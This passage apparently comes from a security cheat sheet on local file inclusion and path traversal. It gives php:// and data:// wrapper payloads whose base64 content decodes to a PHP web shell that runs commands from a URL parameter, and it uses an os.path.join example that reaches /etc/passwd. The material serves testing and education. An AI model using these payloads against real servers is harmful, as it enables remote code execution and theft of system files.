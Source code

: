 Copy

```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```

In the previous code, the final `+.txt` was added because the attacker needed a string that ended in `.txt`, so the string ends with it and after the b64 decode that part will return just junk and the real PHP code will be included (and therefore, executed).

Another example **not using the `php://` protocol** would be:

Copy

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

## Python Root element <a href="#python-root-element" id="python-root-element"></a>

In python in a code like this one:

Copy

```
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```

If the user passes an **absolute path** to **`file_name`**, the **previous path is just removed**:

Copy

```
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```

It is the intended behaviour according to [the docs](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

## Java List Directories <a href="#java-list-directories" id="java-list-directories"></a>

It looks like if you have a Path Traversal in Java and you **ask for a directory** instead of a file, a **listing of the directory is returned**. This won't be happening in other languages (afaik).

## Top 25 parameters <a href="#top-25-parameters" id="top-25-parameters"></a>

Here’s list of top 25 parameters that could be vulnerable to local file inclusion (LFI) vulnerabilities (from [link](https://twitter.com/trbughunters/status/1279768631845494787)):
